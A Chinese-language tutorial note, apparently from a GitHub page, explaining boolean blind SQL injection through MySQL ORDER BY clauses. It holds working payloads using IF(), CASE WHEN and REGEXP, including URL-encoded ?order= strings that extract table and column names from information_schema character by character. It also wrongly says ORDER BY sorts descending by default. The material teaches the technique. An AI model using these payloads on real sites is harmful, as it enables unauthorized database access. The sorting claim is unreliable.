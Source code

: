 order by在mysql中通常作为排序

例如：

```javascript
select * from admin1 order by id;
```



![](images/A11181E0C41143A590158D6D8767BD5Cclipboard.png)

默认是降序排列。



1. 基于order by的盲注

当order by后面的参数可控时，通过控制传入的参数，可是返回数据的排列不同，造成布尔盲注

列如：

1.1 IF(1=2,id,username)

```javascript
select * from admin1 order by IF(1=2,id,username) ;
```



![](images/A19FCDCC32CF4A5987E98B388337EF2Eclipboard.png)



```javascript
select * from admin1 order by IF(1=2,id,username) ;
```



![](images/B2FE0960EED74AACA66ABF603062B6B9clipboard.png)



2. 基于此原理猜解内容：

```javascript
select * from admin1 order by (select 1 regexp if(substring(user(),1,1)='r',1,0x00)) ;
```



![](images/58938AC0504C41A593D005D64B461E19clipboard.png)



通过返回的内容不同，从而确定数据内容

```javascript
select * from admin1 order by (select 1 regexp if(substring(user(),1,1)='1',1,0x00)) ;
```



![](images/CCFB65E577E94523BE83A06CE492DD26clipboard.png)

猜解数据库表名；

```javascript
(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x67,1,0x00)) 正确
(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x66,1,0x00)) 错误
```

猜解数据库列名：

```javascript
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x69,1,0x00)) 正常
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x68,1,0x00)) 错误
```



1.2 (case when (1) then id else username end) 

![](images/93529A083A344D37A440094BA211D6D8clipboard.png)



```javascript
 (case when (FALSE) then id else username end) 
```



![](images/F6A753A4CE76463BB37ED2AF4880D94Dclipboard.png)

